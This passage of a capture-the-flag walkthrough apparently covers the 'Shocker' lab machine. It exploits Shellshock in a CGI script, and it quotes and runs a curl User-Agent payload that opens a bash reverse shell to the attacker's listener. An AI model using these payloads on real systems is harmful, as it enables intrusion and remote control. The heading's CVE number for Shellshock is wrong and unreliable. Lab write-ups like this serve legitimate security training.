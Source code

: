 `/user.sh` exists!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 06:51:46 up 33 min,  0 users,  load average: 0.03, 0.02, 0.00
```

It seems that the script just returns uptime information.
I think it's the output of linux command `uptime`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ uptime
 04:54:25 up 41 min,  2 users,  load average: 0.02, 0.11, 0.09
```



# Shell as `shelly`

### Shellshock exploit(CVE-2024-6271)

Given the linux command running on `/cgi-bin/user.sh`, I can try shellshock attack.

Here's the cheat-sheet for this;

```bash
**Shellshock PoC to gain a Reverse Shell:**\
`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/your-ip/your-nc-port 0>&1' http://target.com/cgi-bin/access.cgi`
```

Let's try this on the target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/9000 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000              
listening on [any] 9000 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 34962
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```
